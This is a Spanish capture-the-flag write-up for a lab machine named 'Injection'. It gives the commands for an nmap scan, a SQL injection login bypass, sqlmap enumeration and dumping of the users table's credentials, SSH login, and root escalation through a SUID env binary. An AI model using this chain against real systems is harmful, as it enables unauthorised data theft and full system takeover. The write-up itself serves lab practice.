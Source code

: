 # MÁQUINA INJECTION

Lo primero que habrá que hacer será realizar un escaneo de puertos usando nmap:

```shell
nmap -p- -sS -sC -sV -vvv --min-rate 5000 -Pn 172.17.0.2
```

![NMAP](https://github.com/Isma-yo/photos/blob/main/Injection/foto.jpg)

Vemos que tenemos abiertos los puertos 80 y 22, por lo que vamos a ver el contenido de la página web:

![WEB](https://github.com/Isma-yo/photos/blob/main/Injection/foto2.jpg)

Nos encontramos con un panel de login, llamandose la máquina Injection, podemos probar si es vulnerable a un SQL Injection:

![INJ](https://github.com/Isma-yo/photos/blob/main/Injection/foto3.jpg)

Vemos que si que era vulnerable y obtenemos un usuario y contraseña que usaremos para conectarnos por SSH:

![CRE](https://github.com/Isma-yo/photos/blob/main/Injection/foto4.jpg)

# MANERA ALTERNATIVA

La otra forma de obtener las credenciales es usando el comando sqlmap:

```shell
sqlmap -u http://172.17.0.2 --dbs --batch --forms
```

![CRE](https://github.com/Isma-yo/photos/blob/main/Injection/foto5.jpg)

```shell
sqlmap -u http://172.17.0.2 --dbs --batch --forms
```

```shell
sqlmap -u http://172.17.0.2 -D register --tables --batch --forms
```

![DB](https://github.com/Isma-yo/photos/blob/main/Injection/foto6.jpg)

```shell
sqlmap -u http://172.17.0.2 -D register -T users --columns  --batch --forms
```

![TA](https://github.com/Isma-yo/photos/blob/main/Injection/foto7.jpg)

```shell
sqlmap -u http://172.17.0.2 -D register -T users -C username,passwd --dump --batch --forms
```

![PASSWD](https://github.com/Isma-yo/photos/blob/main/Injection/foto8.jpg)

Ahora accederemos por SSH usando esas credenciales:

![SSH](https://github.com/Isma-yo/photos/blob/main/Injection/foto9.jpg)

Si hacemos un sudo -l veremos que no podemos ejecutarlo ya que no esta instalado sudo. Lo que deberemos de hacer será ejeuctar el comando find / -perm -4000 2>/dev/null para ver que comandos tienen permisos especiales:

![FIND](https://github.com/Isma-yo/photos/blob/main/Injection/foto10.jpg)

El comando env está presente por lo que vamos a ver si podemos utilizarlo para escalar privilegios. Para ello iremos a la página de GTFOBins y buscaremos el env:

https://gtfobins.github.io/gtfobins/env/#suid

```shell
/usr/bin/env /bin/bash -p
```

![ROOT](https://github.com/Isma-yo/photos/blob/main/Injection/foto11.jpg)

Y ya somos root!


